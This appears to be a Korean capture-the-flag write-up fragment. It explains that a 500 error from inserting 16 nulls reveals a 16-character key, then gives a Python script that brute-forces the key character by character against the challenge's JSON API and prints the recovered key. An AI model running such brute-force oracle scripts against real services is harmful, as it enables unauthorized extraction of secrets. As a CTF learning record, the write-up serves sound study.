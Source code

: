 ```
<p>The server encountered an internal error and was unable to complete your request.  Either the server is overloaded or there is an error in the application.</p>
```
null을 16개 삽입하였을 때 500에러가 발생하므로 key는 16자리이다.

이제 한글자씩 뽑기위해 exploit을 작성하여 돌렸다.
```python
import urllib
import urllib2
import string

URL = "http://s3.chal.ctf.westerns.tokyo/api/data/1/check"
charset = string.ascii_letters+string.digits
cnt = 0
key = ''	
while len(key)!=16:
	for j in charset:
		cnt = 0
		pp = '['
		for i in range(len(key)):
			cnt += 1
			pp+='"'+key[i]+'",'
		pp += '"'+j+'"'
		pp += ',null'*(16-1-cnt)
		pp += ']'
		data = '{"key":'+pp+'}'
		try:
			req = urllib2.Request(URL,data)
			req.add_header('Content-Type','application/json;charset=UTF-8')
			res = urllib2.urlopen(req)
			dd = res.read()
			if 'false' not in dd:
				key += j
				print data
				print key
		except:
			print data
			key += j
			print key
			break	
            
print key
# {"key":["t","2","g","a","v","A","j","b","P","t","j","9","g","y","p","s"]}
# t2gavAjbPtj9gyps
```
key의 값이 `t2gavAjbPtj9gyps`인 것을 알아냈으니 http://s3.chal.ctf.westerns.tokyo/#/data/1의 key값에 t2gavAjbPtj9gyps을 넣으면 flag를 얻을 수 있다.
